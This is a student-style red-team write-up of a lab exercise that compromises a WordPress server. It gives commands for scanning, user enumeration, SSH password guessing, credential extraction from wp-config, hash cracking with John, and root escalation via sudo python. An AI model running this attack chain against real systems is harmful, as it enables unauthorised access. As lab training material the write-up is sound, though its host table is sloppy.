




# Red Team: Summary of Operations

## Table of Contents
- Network Topology
- Host Discovery
- Attacking Target 1
    - Exposed Services
    - Critical Vulnerabilities
    - Exploitation

## Network Topology

The Diagram below depicts the network topology of a subnet of `192.168.1.1/24` including an attacker Kali Linux machine an ELK-Stack monitoring system, and a few Linux Ubuntu webservers. The Kali-Linux machine is used to attack vulnerable machines on the network. The diagram below shows the network diagram, the IP addresses, and the functions of each machines.

## Scanning and Host Discovery

Nmap is used to scan the `192.168.1.1/24` subnet for host discovery, operating system detection, identifying open ports and their exposed services.

The following hosts with IP addresses, operating systems, open ports were discovered using 

`nmap -A -sV 192.168.1.1/24`

| Name      | Function           | IP Address    | Public IP Address | Operating System |
|-----------|--------------------|---------------|-------------------|---------------|
| Jump-Box  | Gateway            | 192.168.1.1   | 125, 129, 445, 2179, 3389     | Linux Ubuntu     |
| Web-1     | Attacker           | 192.168.1.90  | 22    | Kali Linux      |
| ELK-server| Monitoring ELK-Stack server        | 192.168.1.100           | 22, 9200     | Linux Ubuntu     |
| Web-2     | Web server         | 192.168.1.105 | 22, 80     | Linux Ubuntu     |
| Web-3     | Target Web server  | 192.168.1.110 | 22, 80. 111. 139, 445     | Linux Ubuntu     |
| ELK-server| Target Web server  | 192.168.1.115 | 22, 80. 111. 139, 445       | Linux Ubuntu     |

Note: The option `-A` is for operating system detection and service version detection and very verbose, however it is very noisy. The snapshot below shows the exposed services on the machines using `nmap -sV 192.168.1.1/24` as it has a shorter output.

## Attacking Target 1

### Reconnaissance and scanning

All the public webpages on the Target 1 were visited to find any exposed sensitive information. The screenshot below shows that the web servvr uses the WordPress for content management.

`wpscan` scanner that includes the WordPress vulnerability database is used to enumerate the usernames of the WordPress by brute forcing the author ID by

`wpscan --url 192.168.1.110/wordpress --enumerate u`

### Exploitation

Two users `michael` and `steven` were discovered. The first obvious guess for a password would be the same as the username. It appeared to be the case for the user `michael`. Therefore, both the username and the password are `michael`. To secure a user shell in the Target1

`ssh michael@192.168.1.110`

The content of the website folder `/var/www` was investigated and hash values of two flags were found. One located in the `/var/www/html/service.html` while the other in `/var/www/flag2.txt`

The hash value of the flag1 is ??????????????????

The hash value of the flag2 is ??????????????????

The login information to access the database is stored in the `/var/www/html/wordpress/wp-config`

To access the SQL database using `root` as the username, `R@3nSecurity` as the password and `localhost` as the host:

`mysql -u root -p'R@3nSecurity' -h localhost`

To see all the databases

`SHOW databases;`

To use the `wordpress` database and print the content of the `wp_posts`

`USE wordpress;`

`SELECT * FROM wp_posts;`

Two other flags were found in `wp_posts` table of `wordpress` database.

The hash value of the flag3 is ?????????????????

The hash value of the flag4 is ?????????????????????????

Exploitable information was found in the `wp_users` table of the `WordPress` database 
The password hash values of the both `michael` and `steven` users are found in the 'wp_users'

`SELECT * FROM wp_users`

The password hashes were dumped into the Kali machine as `pass.txt` and cracked with the John the Ripper program.

`john pass.txt`

The 'steven' password found to be `pink84`

Login to the Target 1 machine with 

`# ssh steven@192.168.1.110`

To check the sudo privileges of the user `steven`

`sudo -l`

The user `steven` has the privilege of running Python scripts as the root. To spawn a tty Bash shell. The flag 4 is also printed after spawning the shell.

`sudo python -c 'import pty; pty.spawn("/bin/bash")'`

### Vulnerability assessment